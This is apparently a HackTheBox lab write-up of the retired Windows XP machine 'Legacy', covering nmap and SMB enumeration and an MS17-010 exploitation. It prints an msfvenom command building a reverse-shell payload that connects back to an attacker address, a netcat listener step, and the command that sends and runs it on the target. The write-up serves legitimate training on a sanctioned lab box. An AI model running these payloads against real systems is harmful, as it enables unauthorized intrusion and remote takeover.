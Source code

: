 ```yaml
---
name: "Or0ch1"
linktitle: "Legacy"
title: "Legacy"
Cover: "/Legacy/Legacy.png"
categories: ["HacktheBox"]
draft: false
toc: true
images:
tags: ["Windows", "MS17-010", "MS08-067", "HackTheBox"]
date: 2022-09-22T16:35:24+03:00
---
```


Welcome to another HackTheBox writeup, today we'll be diving into the retired windows box Legacy.

Lets jump right in!

## Recon
Starting the box we get the ip **10.10.10.4** and we scan for open ports using nmap.

![nmap]({{<static "/Legacy/nmapscan.png">}})

The results show the OS as Windows XP and the following ports open:
  - 135 - msrpc
  - 139 - netbios-ssn
  - 445 - microsoft-ds

## Enumeration  

I try Null authentication by using smbclient and smbmap but I wasn't successful.

![smbclient]({{<static "/Legacy/smbclient.png">}})

I decide to run nmap smb-vuln scipts to check for any smb vulnerabilities.

![nmap_scripts]({{<static "/Legacy/nmapscriptsearch.png">}})

![vulns]({{<static "/Legacy/smbvuln.png">}})

The results show that there are two vulnerabilites present:
  - MS08-067
  - MS17-010

While both of these vulns can be exploited via metasploit I decided not to use it.

I tried exploiting both of them however i ran into problems with the **MS08-067** exploit, when I get a workaround the blog will be updated to include it.

## MS17-010 Exploitiation

For this we are going to generate an exploit using msfvenom and use the following [EXPLOIT](https://github.com/helviojunior/MS17-010).

I generated the msfvenom payload with the following options:

```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o exploit.exe```

  - ```-p``` - to specify the platform as **windows/shell_reverse_tcp**.
  - ```LHOST``` - to specify the attackers IP address, since we're connecting via openvpn run **ip a** in the terminal and copy the address you see on the **tun0** interface.
  - ```LPORT``` - to indicate the port we will be listening on.
  - ```EXITFUNC```  - specifies a DLL and function to call when the payload is complete, I set this as **thread** since we want a clean exit.
  - ```-f``` - format in which the payload will be generated.
  - ```-a``` and ```--platform``` - the architecture and platform of the target.
  - ```-o``` - outputfile.

I set up a netcat listener on port 443 and from the repo cloned above I use ```send_and_execute.py``` with the following options.

```python2 send_and_execute.py 10.10.10.4 ~/HackTheBox/Legacy/exploit.exe```

![shell]({{<static "/Legacy/ms17_shell.png">}})

We get a shell however since the OS is windows XP we do not have the whoami command or binary present, we have to upload it to the box.

Kali linux has a folder containing windows binaries and checking in it we find the whoami.exe binary, I use impacket-smbclient to setup a share and I access the binary from the box.

![whoami]({{<static "/Legacy/whoami.png">}})

Since we are already ```NT AUTHORITY/SYSTEM``` theres no need for us to escalate privileges and I move to locating the flags.

On windows one can search for a file using the following syntax ```dir <filename> /s``` so to search to find the flag I cd into **C:** and execute the search from here. 

The user flag is in the user johns Desktop folder while the root flag is in the Administrators Desktop folder.

**user flag**
![userflag]({{<static "/Legacy/userflag.png">}})

**root flag**
![rootflag]({{<static "/Legacy/rootflag.png">}})

And we are done, this box was fairly simple and i enjoyed doing it.

I hope someone succeeds on exploiting **MS08-067** on this box.

Happy hacking everyone :sunglasses: and as we say at f334aks-mini #IWDWD :skull: